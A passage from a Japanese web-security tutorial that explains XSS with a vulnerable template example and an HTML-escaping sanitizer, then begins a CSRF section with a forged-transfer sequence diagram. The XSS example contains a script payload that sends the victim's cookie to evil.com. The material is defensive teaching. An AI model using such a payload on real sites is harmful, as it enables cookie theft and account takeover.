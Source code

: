 #### 実際の被害例

```html
<!-- ❌ 危険な例：ユーザー入力をそのまま表示 -->
<div>こんにちは、{{userName}}さん</div>

<!-- 攻撃者が userName に以下を入力した場合 -->
<!-- <script>document.location='http://evil.com?cookie='+document.cookie</script> -->

<!-- 結果：被害者のCookie が攻撃者に送信される -->
```

#### 🛡️ 防御策

```typescript
// 入力値のサニタイズ（私たちのプロジェクトより）
export function sanitizeString(input: string): string {
  if (typeof input !== "string") return "";

  return input
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#x27;")
    .replace(/\//g, "&#x2F;")
    .trim();
}
```

### 3. 🎯 CSRF（クロスサイトリクエストフォージェリ）攻撃

**ユーザーが意図しない操作を強制的に実行させる攻撃**

#### 攻撃の流れ

```mermaid
sequenceDiagram
    participant V as 👤 被害者
    participant B as 🏦 銀行サイト
    participant A as 🏴‍☠️ 攻撃サイト

    V->>B: 銀行にログイン
    B-->>V: 認証Cookie設定
    
    Note over V: 別タブで悪意のあるサイトにアクセス
    V->>A: 攻撃サイトにアクセス
    A-->>V: 悪意のあるページ
    Note over V: 自動的に送金フォームが送信される
    V->>B: 意図しない送金リクエスト（Cookie付き）
    B->>B: 正当なリクエストと判断 💀
    B-->>V: 送金実行
```
